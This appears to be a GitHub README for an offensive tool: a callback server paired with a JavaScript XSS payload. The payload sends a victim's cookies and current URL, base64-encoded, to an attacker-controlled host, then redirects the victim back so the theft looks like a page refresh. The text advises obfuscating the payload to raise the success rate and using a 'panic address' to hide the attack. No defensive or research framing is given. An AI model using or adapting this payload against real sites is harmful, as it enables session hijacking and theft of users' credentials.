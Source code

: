 ## Description

This repo contains an example of a CORS callback server and an XSS payload that, once executed, will change the current window location of the victim to your callback address, which returns a **301 Moved Permanently** response sending the victim back to its referer, although this time with a token in the URL anchor, preventing the XSS payload from reactivating.

This enables you to sniff sensitive data via URL parameters when the victim is sent to your callback address.

If the victim did not send a Referer header, you can include the referer address in a URL parameter. If no referer is provided, the victim will be redirected to a panic address of your choice, in an attempt to keep the attack hidden.

When the attack is successful, the victim experienced what seemed like a page refresh at most.

## Usage

First of all make sure that your callback server is listening.

Use the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be. 

Refine your payload as required, or it may get triggered unexpectedly.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
                	"?referer=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```

<sup>If you choose not to include a referer in the URL parameters, the callback server defaults to the **`Referer`** header of the request.<br>If neither a referer parameter or Referer header is present, the panic address is used.</sup>
